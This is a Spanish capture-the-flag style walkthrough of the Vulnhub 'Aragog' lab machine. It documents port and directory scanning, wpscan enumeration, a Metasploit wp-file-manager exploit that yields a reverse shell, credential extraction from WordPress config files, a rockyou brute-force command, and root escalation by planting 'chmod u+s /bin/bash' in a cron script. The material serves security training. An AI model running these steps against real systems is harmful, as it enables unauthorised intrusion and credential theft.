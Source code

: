 Tiramos nuestra rutina de reconocimiento con nmap: 

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.101 -oN Target 

grep '^[1-9]' Target | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','

nmap -sCV -p21,22,2222,80,9898 192.168.1.101 -oN TargetsCV
```

Gracias a nmap, vemos que hay un servicio ssh y un servicio http

```bash
PORT   STATE SERVICE REASON         VERSION  
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:    
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSJJ1ZAbIA3lP2RbpxnhknzLJqrHne4be3xTLmVEXWg7YQ6FFZ/RA1VzmrFYPlvB1t1XwopptI+nA9BSG5+hllLyCQ1pDZkhIwyGHuBLZETD8cIJTlsxVCwnh67h7eeK4hTEtjp1rUodK30juDf5  
u7JnkwVfo78LvM8WV1LjVrmhsZiqzy1CxAoMFpiRp3ZlvpblL3gdd0wgSNrGqEwc6qJc6Z+RKGkLbnpgTnOsc6vGLs1xFOGrHF2qFeDpUWti0ZDSN31LtP1HtNItbBKSECcFD3KrN8nPaZCa2V9GA1jrpOOAF1j0ehcRlBoFqLZzQbO9RFeIkgqGNrz3  
PDt7vp  
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBESZsj5u/F88CLIXTeBD8OgiCM2u8sKBgbvvjKccwFmCBMh3GmOHGP8qzzQwVTMkq1aN0WSIk7h8/cHCT2tZLzE=  
|   256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMsH4OtBIy/He42Rc6KvtI6w2855JMLVloVFy5/0Rtj4  
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))  
| http-methods:    
|_  Supported Methods: GET POST OPTIONS HEAD  
|_http-title: Site doesn't have a title (text/html).  
|_http-server-header: Apache/2.4.38 (Debian)  
MAC Address: 08:00:27:DD:94:52 (Oracle VirtualBox virtual NIC)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el servicio http no vemos nada, vamos a fuzzear con gobuster a ver si encontramos algo:

```bash
gobuster dir -u "http://192.168.2.72/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 20  
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://192.168.2.72/  
[+] Method:                  GET  
[+] Threads:                 20  
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/blog                 (Status: 301) [Size: 311] [--> http://192.168.2.72/blog/]  
/javascript           (Status: 301) [Size: 317] [--> http://192.168.2.72/javascript/]  
/server-status        (Status: 403) [Size: 277]  
Progress: 224213 / 1185255 (18.92%)^C  
[!] Keyboard interrupt detected, terminating.  
Progress: 226628 / 1185255 (19.12%)  
===============================================================  
Finished  
===============================================================
```


Encontramos la ruta hacia /blog, vamos a ver que hay

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a1baa27a-23a2-4239-a102-231170506ced" width="250" height="250">

No nos resuelve, así que vamos a ver el código fuente en busca de el nombre del host para poder meterlo dentro de nuestro /etc/hosts y así poder ver bien la página web. Al parecer hay un dominio **aragog.hogwarts** y un subdominio **wordpress.aragog.hogwarts** >> /etc/hosts. Una vez dentro del blog podemos ver que es un wordpress y ademas que la url de inicio de la administración de wordpress esta por defecto en /wp-admin. Tiramos un whatweb para ver que versión de wordpress es:

```bash
whatweb http://wordpress.aragog.hogwarts/blog
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f6ade782-0eec-4884-9a57-600b7da00300" width="1000" height="100">

Tiramos un searchsploit  y encontramos los siguientes scripts:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/bcbe6367-b017-4b5a-8469-b536742d92be)

Antes de ver estos sploits, vamos a ver que nos dice wpscan:

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog -e vp,u --api-token="APItoken"
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/407e2201-4858-4d53-ac69-3c2f667f5403" width="500" height="500">

wpscan nos reporta un montón de vulnerabilidades, vamos a escoger una que pinte bien :)

He probado muchas de las vulnerabilidades que hay en el wpscan y al parecer son falsos positivos, vamos a probar con mi siguiente opción que es el scanner de Metasploit:

`scanner/http/wordpress_scanner`

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/605653bd-9d51-45c5-95fc-5178a75c2775)

Encontramos en este scanner la siguiente vulnerabilidad `wp-file-manager`

En el mismo Metasploit vemos que existe un exploit que explota esta vulnerabilidad, pero antes de ejecutarlo vamos a ver que hace:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/4049d8a3-4811-4b49-91cf-29c85d92c10f)

viendo un poco por encima el exploit lo que hace es meter un archivo malicioso en wordpress ubicado en **/wp-content/plugins/wp-file-manager/lib/files/malicioso.php** ejecutarlo y una vez que nos entable la reverse shell lo elimina, pues vamos a ejecutarlo a ver que pasa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/fcfa2dbf-ab74-45e4-a1c3-aae753c22892)

Hacemos una reverse shell hacia mi máquina por comodidad: 

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f2764571-fe98-47b0-91c8-2e5da10fd86c)

Ahora con una consola mucho mas usable, pues lo primero que vamos hacer al saber que es un wordpress es buscar el archivo wp-config.php, dentro de el vemos una ruta muy interesante llamada config-default.php

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d790eaef-837e-4a94-b883-bc76c8771d22)

Dentro de este archivo vemos las credenciales:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/28f0ab92-0cb7-453b-9790-4cc6acdf431d)

acabamos de sacar las credenciales de la base de datos de el wordpress, vamos a ver que hay dentro

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/17c61c3c-1d04-4beb-bb7c-0c8217d8f949)

dentro encontramos una password encriptada y un usuario con el que supongo que podemos entrar al wordpress, ahora con un usuario valido vamos a probar a hacer una fuerza bruta con el diccionario rockyou:

```bash
wpscan --url "http://192.168.1.101/blog" -U hagrid98 -P /usr/share/wordlists/rockyou.txt --api-token="ApiToken"
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/5a83444f-8ed1-4d67-8d68-0160db64c0a5)


Una vez hecha la fuerza bruta, conseguimos la contraseña xd, vamos a entrar por ssh a ver si toca la flauta y efectivamente se conecta al ssh:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d8af0a03-e81b-4c49-b085-614725db479b?with=250)

Conseguimos la flag de user, vamos a por el ruteo, empiezo con sudo -l el cual me dice que no esta instalado sudo en la máquina, buscamos por permisos SUID (find / -perm -4000 -ls 2>/dev/null) pues vamos a por tareas cron mi favorito, creamos el siguiente script para identificar tareas cron:

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a662c4b5-599c-4588-99d1-9f68793fb228?with=50)


y como vemos hay un script que cada cierto tiempo se ejecuta con privilegios... pues tan simple como meter dentro de este comando **chmod u+s /bin/bash** ahora la próxima vez que se ejecute la tarea cron va a tener permisos SUID la bash y ejecutando bash -p vamos a conseguir una consola como administrador.

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/557f5f7f-9578-44c9-be2d-5fb67ded3356?with=100) 

Dificultad 2/5


